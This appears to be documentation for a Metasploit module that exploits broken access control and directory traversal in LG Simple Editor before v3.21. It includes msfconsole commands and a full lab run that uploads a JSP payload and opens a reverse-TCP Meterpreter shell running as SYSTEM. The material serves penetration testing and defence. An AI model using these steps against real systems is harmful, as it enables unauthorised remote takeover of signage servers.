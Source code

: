 ## Vulnerable Application

LG Simple Editor is recommended for small businesses and sports bars which require simple content
display or play-on-air via their signage. It enables easy new content creation by simplifying processes,
and immediate playback on signage.

This Metasploit module exploits broken access control and directory traversal
vulnerabilities in LG Simple Editor software for gaining code execution.
The vulnerabilities exists in versions of LG Simple Editor prior to v3.21.
By exploiting this flaw, an attacker can upload and execute a malicious JSP
payload with the SYSTEM user permissions.

## Testing
For installing the vulnerable version follow the steps below,
1. Download the installation file of the vulnerable software
[here](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip)
2. Follow the installation steps.

After these steps, the LG Simple Editor service should be accessible on port 8080.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/http/lg_simple_editor_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

## Scenarios

```
msf6 > use exploit/windows/http/lg_simple_editor_rce 
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/lg_simple_editor_rce) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/http/lg_simple_editor_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf6 exploit(windows/http/lg_simple_editor_rce) > set lport 4444
lport => 4444
msf6 exploit(windows/http/lg_simple_editor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Uploading JSP payload...
[+] Payload uploaded successfully
[*] Backing up original index file.
[+] /index.jsp -> /index2.jsp copy successfull.
[*] Replacing index file with payload...
[+] /BOANL_original.bmp -> /index.jsp copy successfull.
[*] Triggering payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Fixing index file...
[+] /index2.jsp -> /index.jsp copy successfull.
[*] Meterpreter session 15 opened (192.168.56.1:4444 -> 192.168.56.109:50081) at 2023-08-29 15:58:26 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo 
Computer        : DESKTOP-LB6UGKE
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 

```
